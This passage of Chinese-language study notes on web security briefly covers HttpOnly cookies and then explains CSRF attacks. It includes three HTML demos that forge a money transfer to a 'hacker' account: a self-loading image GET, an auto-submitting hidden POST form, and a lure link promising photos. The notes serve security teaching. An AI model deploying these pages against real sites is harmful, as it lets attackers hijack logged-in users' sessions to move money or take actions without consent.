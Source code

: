 顾名思义，使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly

## CSRF 攻击

点击链接中毒，就是 CSRF 的“功劳”

<img src="https://static001.geekbang.org/resource/image/3d/6b/3d7f097b1d6a8f93a960a12892f1556b.png" style="zoom:67%;" />

CSRF：Cross-site request forgery，跨站请求伪造。CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事

自动发起 Get 请求：

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100" />
  </body>
</html>
```

当“图片”加载时，自动发起 img 的资源请求，那么服务器认为是一个转账请求的话，就直接执行转账操作了

自动发生 Post 请求

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form
      id="hacker-form"
      action="https://time.geekbang.org/sendcoin"
      method="POST"
    >
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script>
      document.getElementById("hacker-form").submit();
    </script>
  </body>
</html>
```

当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交

引诱用户点击链接

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg />
</div>
<div>
  <a
    href="https://time.geekbang.org/sendcoin?user=hacker&number=100"
    taget="_blank"
  >
    点击下载美女照片
  </a>
</div>
```
